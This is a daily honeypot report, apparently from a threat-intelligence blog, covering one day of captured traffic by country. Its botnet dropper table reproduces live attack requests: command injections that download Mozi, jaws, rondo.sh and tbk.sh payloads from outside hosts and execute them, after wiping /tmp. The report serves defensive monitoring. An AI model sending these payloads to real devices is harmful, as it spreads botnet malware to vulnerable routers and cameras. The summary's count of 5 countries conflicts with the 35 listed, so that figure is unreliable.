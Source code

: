 ```yaml
---
title: "Report: 2025-07-06 "
date: 2025-07-06
desciption: "Report: 2025-07-06" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-06 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 6 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 875 requests were recorded during the day, originating from 5 different countries, with a peak of 302 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| BR               | Germany            |
| US               | Dubai              |
| US               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 123.245.32.35   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://123.245.32.35:51753/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 118.194.228.15  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 125.139.253.185 | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 45.135.194.11   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F169.255.72.169%2Frondo.sh%7C%7Ccurl%20http%3A%2F%2F169.255.72.169%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1                                                                                                                                                                                                       |
| 5.79.105.22     | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F5.79.105.22%2Ftbk.sh%3B%20chmod%20777%20tbk.sh%3B%20sh%20tbk.sh%3B%20tftp%205.79.105.22%20-c%20get%20tbk1.sh%3B%20chmod%20777%20tbk1.sh%3B%20sh%20tbk1.sh%3B%20tftp%20-r%20tbk2.sh%20-g%205.79.105.22%3B%20chmod%20777%20tbk2.sh%3B%20sh%20tbk2.sh%3B%20ftpget%20-v%20-u%20anonymous%20-p%20anonymous%20-P%2021%205.79.105.22%20tbk1.sh%20tbk1.sh%3B%20sh%20tbk1.sh%3B%20rm%20-rf%20tbk.sh%20tbk1.sh%20tbk2.sh%20tbk1.sh HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                               |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------|
| 121 |                     1 | \x00\x0E8j\x99\xC5\xE5Z \xD8\xC2\x00\x00\x00\x00\x00                                                  |
| 185 |                     1 | \x00\x0E8l*\x0B\x94\xB1\x00\xAA\xDB\x00\x00\x00\x00\x00                                               |
| 187 |                     1 | \xC7=\xD7\xDA\xA1\xDB\x11\x15\x86\x0Ci\x81to\x97\x98\x98\x13\xFA\xBD7pf^\x0B\xE7\xB9\xF8\xE2\x8B\x83d |
| 230 |                     1 | \x00\x0E8\xD6.N<\xD8w\xF5\x06\x00\x00\x00\x00\x00                                                     |
| 259 |                     1 | \x00\x0E8\xB1\xE9\xBC(G\xCBrn\x00\x00\x00\x00\x00                                                     |
| 281 |                     1 | GET http://xxx.xxx.xxx.xxx:80/admin/scripts/setup.php HTTP/1.0                                        |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   302 | US                 |
|  1 |                    79 | SG                 |
|  2 |                    67 | CH                 |
|  3 |                    57 | HK                 |
|  4 |                    57 | NL                 |
|  5 |                    54 | DE                 |
|  6 |                    33 | FR                 |
|  7 |                    32 | RU                 |
|  8 |                    24 | JP                 |
|  9 |                    23 | BG                 |
| 10 |                    22 | PL                 |
| 11 |                    18 | GB                 |
| 12 |                    13 | IN                 |
| 13 |                    11 | AO                 |
| 14 |                    11 | SC                 |
| 15 |                    10 | MU                 |
| 16 |                     8 | IL                 |
| 17 |                     7 | CA                 |
| 18 |                     6 | ZA                 |
| 19 |                     6 | BR                 |
| 20 |                     5 | CN                 |
| 21 |                     4 | UA                 |
| 22 |                     4 | KR                 |
| 23 |                     4 | BE                 |
| 24 |                     3 | KZ                 |
| 25 |                     2 | AT                 |
| 26 |                     2 | IR                 |
| 27 |                     2 | AZ                 |
| 28 |                     2 | IE                 |
| 29 |                     2 | GH                 |
| 30 |                     1 | ID                 |
| 31 |                     1 | VN                 |
| 32 |                     1 | ES                 |
| 33 |                     1 | DK                 |
| 34 |                     1 | IT                 |
